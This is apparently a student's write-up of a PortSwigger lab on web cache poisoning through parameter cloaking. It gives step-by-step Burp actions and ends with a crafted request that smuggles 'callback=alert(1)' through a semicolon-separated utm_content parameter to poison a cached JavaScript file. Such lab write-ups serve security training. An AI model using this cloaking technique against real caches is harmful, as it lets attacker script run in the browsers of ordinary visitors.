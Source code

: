 # Parameter cloaking

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome.

## To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes `alert(1)` in the victim's browser.

---

### step 1

send geolocate.js to repeter

![screenshot](./images/lab7_geolocate_js_file_to_repeter.png)

### step2

send param minier to rails param miner cloaking scan

![screenshot](./images/lab7_rails_param_cloaking_scan.png)

### step3

add _&utm_content=x;callback=akzldka&ipy1trc2=1_
final url _GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=akzldka&ipy1trc2=1_

![screenshot](./images/lab7_utm_callaback_request.png)

### step4

payload:alert(1)
_GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=alert(1)_
send request many times to solve the lab

![screenshot](./images/lab7_callback_payload.png)
